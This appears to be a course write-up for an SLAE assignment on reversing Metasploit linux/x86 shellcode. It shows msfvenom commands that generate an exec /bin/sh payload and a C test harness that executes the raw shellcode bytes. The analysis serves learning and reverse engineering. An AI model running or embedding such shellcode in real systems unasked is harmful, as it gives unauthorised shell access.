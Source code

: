 # Assignment 5: Metasploit shellcode analysis

The fifth assignment for SLAE certification is about shellcode analysis and
reversing.

Students were asked to take up at least 3 shellcode samples created using
Msfpayload for linux/x86, use GDB/Ndisasm/Libemu to dissect the funcSonality of
the shellcode and presenting analysis.

The assignment was written on an Ubuntu Linux 18.04, with a Linux kernel 4.15
version.

## Shellcode selection

To list all available payloads generated by msfvenom, you have to issue the
following command: 

```sh
# msfvenom --list payloads | grep linux/x86
```

From the list, I selected:

* execve
* bind TCP shellcode
* reverse TCP shellcode

## GDB in action on linux/x86/exec payload

To see all possible options, the following command line can be used:

```sh
# msfvenom -p linux/x86/exec -a x86 --platform linux --list-options
```

We need CMD parameter, that we can set to "/bin/sh".

```sh
# msfvenom -p linux/x86/exec -a x86 --platform linux CMD=/bin/sh -f c -o exec_sc_with_null.txt
```

I copied the msfvenom output to a skeleton C program:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
		       
int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```
